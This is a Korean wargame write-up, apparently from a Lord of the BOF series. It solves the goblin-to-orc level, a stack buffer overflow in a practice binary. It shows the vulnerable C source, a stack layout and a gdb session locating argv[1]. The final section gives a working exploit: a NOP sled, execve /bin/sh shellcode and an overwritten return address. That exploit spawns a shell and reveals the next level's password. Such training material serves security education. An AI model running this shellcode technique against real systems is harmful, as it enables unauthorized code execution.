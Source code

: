 ============================================================================================================
[lob] goblin
============================================================================================================


.. uml::
    
    @startuml

    start

    :Source Analysis;

    :Memory Structure;

    :Segmentation fault;

    :argv[1] 주소 확인;

    :RET 주소를 argv[1] 주소로 변경하여 공격 진행;
    
    stop

    @enduml


|

Source Analysis
============================================================================================================

해당 문제 소스코드는 다음과 같습니다.

.. code-block:: c

    /*
        The Lord of the BOF : The Fellowship of the BOF
        - orc
        - egghunter
    */

    #include <stdio.h>
    #include <stdlib.h>

    extern char **environ;

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i;

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
            memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    }

|

Memory Structure
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 됩니다.

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- strcpy
    SFP     (4byte)
    RET     (4byte)
    argc    (4byte)
    argv    (4byte)
    ----------------
    HIGH    
    ================

|

Segmentation fault
============================================================================================================

strcpy로 인해 입력한 값이 버퍼보다 클 경우 오버플로우가 발생됩니다.

※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행해야 합니다.

.. code-block:: console

    $ ./orc `python -c 'print "a"*47'`

    stack is still your friend.

    $ ./orc `python -c 'print "a"*47+"\xbf"'`

    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
    Segmentation fault


|

exploit
============================================================================================================

argv[1] 주소 확인
------------------------------------------------------------------------------------------------------------

앞의 조건에 argv[1][47]값이 \\xbf인지 확인하기 때문에, gdb를 이용하여 argv[1]이 가리키는 주소를 찾습니다.

.. code-block:: console

    (gdb) b *main
    Breakpoint 1 at 0x8048500

    (gdb)
    Note: breakpoint 1 also set at pc 0x8048500.
    Breakpoint 2 at 0x8048500

    (gdb) r `python -c 'print "a"*47+"\xbf"'`
    Starting program: /home/goblin/orc1 `python -c 'print "a"*47+"\xbf"'`

    Breakpoint 1, 0x8048500 in main ()

    (gdb) stepi
    0x8048501 in main ()

    (gdb) i reg $esp
    esp            0xbffffaf8       -1073743112

    (gdb) i reg $ebp
    ebp            0xbffffb18       -1073743080

    (gdb) x/100x $esp

    ==========================================================================
    0xbffffaf8:     0xbffffb18      0x400309cb      0x00000002      0xbffffb44
    0xbffffb08:     0xbffffb50      0x40013868      0x00000002      0x08048450
    0xbffffb18:     0x00000000      0x08048471      0x08048500      0x00000002
    0xbffffb28:     0xbffffb44      0x08048390      0x0804860c      0x4000ae60
    0xbffffb38:     0xbffffb3c      0x40013e90      0x00000002      0xbffffc37
    0xbffffb48:     0xbffffc49      0x00000000      0xbffffc7a      0xbffffc9c
    0xbffffb58:     0xbffffca6      0xbffffcb4      0xbffffcd3      0xbffffce2
    0xbffffb68:     0xbffffcfb      0xbffffd17      0xbffffd36      0xbffffd41
    0xbffffb78:     0xbffffd4f      0xbffffd91      0xbffffda3      0xbffffdb8
    0xbffffb88:     0xbffffdc8      0xbffffdd4      0xbffffdf2      0xbffffdfd
    0xbffffb98:     0xbffffe0e      0xbffffe1f      0xbffffe27      0x00000000
    0xbffffba8:     0x00000003      0x08048034      0x00000004      0x00000020
    0xbffffbb8:     0x00000005      0x00000006      0x00000006      0x00001000
    0xbffffbc8:     0x00000007      0x40000000      0x00000008      0x00000000
    0xbffffbd8:     0x00000009      0x08048450      0x0000000b      0x000001f7
    0xbffffbe8:     0x0000000c      0x000001f7      0x0000000d      0x000001f7
    0xbffffbf8:     0x0000000e      0x000001f7      0x00000010      0x0fabfbff
    0xbffffc08:     0x0000000f      0xbffffc32      0x00000000      0x00000000
    0xbffffc18:     0x00000000      0x00000000      0x00000000      0x00000000
    0xbffffc28:     0x00000000      0x00000000      0x36690000      0x2f003638
    0xbffffc38:     0x656d6f68      0x626f672f      0x2f6e696c      0x3163726f
    0xbffffc48:     0x61616100      0x61616161      0x61616161      0x61616161 
                          ^               ^               ^ argv[1] = 0xbffffc51
    0xbffffc58:     0x61616161      0x61616161      0x61616161      0x61616161
    0xbffffc68:     0x61616161      0x61616161      0x61616161      0x61616161
    0xbffffc78:     0x454c00bf      0x504f5353      0x7c3d4e45      0x7273752f
    ==========================================================================



RET 주소를 argv[1] 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- "\x90"*19 + shellcode
    SFP     (4byte)  <- shellcode
    RET     (4byte)  <- argv[1] address
    argc    (4byte)
    argv    (4byte)
    ----------------
    HIGH    
    ================

|

오버플로우시 RET 주소를 argv[1]의 주소로 변경하여 해당 쉘코드가 실행되도록 합니다. argv[1]의 최초 주소값을 확인하여 4바이트씩 증가하면서 주소를 변경하면서 공격을 진행하면 성공시킬 수 있습니다.

nop (19 byte) + shellcode (25 byte) + argv[1] address

.. code-block:: console

    $ ./orc `python -c 'print "\x90"*19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x4c\xfc\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀L▒▒▒
    Segmentation fault
    
    $ ./orc `python -c 'print "\x90"*19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x51\xfc\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀Q▒▒▒
    bash$ whoami
    orc
    bash$ my-pass
    euid = 504
    cantata







